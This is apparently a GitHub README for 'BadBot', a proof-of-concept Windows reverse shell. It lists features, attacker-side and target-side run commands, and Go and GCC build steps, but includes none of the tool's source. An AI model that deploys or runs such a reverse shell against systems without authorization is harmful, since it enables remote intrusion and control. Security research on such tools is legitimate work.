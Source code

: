 # BadBot Windows Reverse Shell 🪟

## 📜 Overview

BadBot Windows Reverse Shell is a proof-of-concept tool designed to demonstrate reverse shell capabilities on Windows systems. Use this tool only in a legal and ethical manner. Misuse may result in severe legal consequences.

<a href="https://gyazo.com/245fd3995dbe86e3a4d54c374fcb6b6b"><img src="https://i.gyazo.com/245fd3995dbe86e3a4d54c374fcb6b6b.gif" alt="Image from Gyazo" width="1918"/></a>

## ✨ Features

- 🌐 Establish a reverse shell connection from a Windows machine
- ⚙️ Supports basic command execution

## 💡 Requirements

- 🖥️ Windows operating system
- 🛠️ Golang / GCC must be installed if you want to compile
- 🌍 Network access to a remote server

## 🚀 Usage

1. **The Server (Attacker's Side)**

    ```bash
    attacker > $ ./BadBot-Server.exe [Port]
    ```

2. **Client (Target's Side)**

    ```bash
    target > $ ./BadBot-Client.exe [Port]
    ```

## 🔨 Compilation
1. **Server**
   
    ```bash
    $ go build -o BadBot-Server.exe
    ```
2. **Client**

    ```bash
    $ gcc main.c -lws2_32 -Wall -Wextra -Wpedantic -o BadBot-Client.exe

    ```
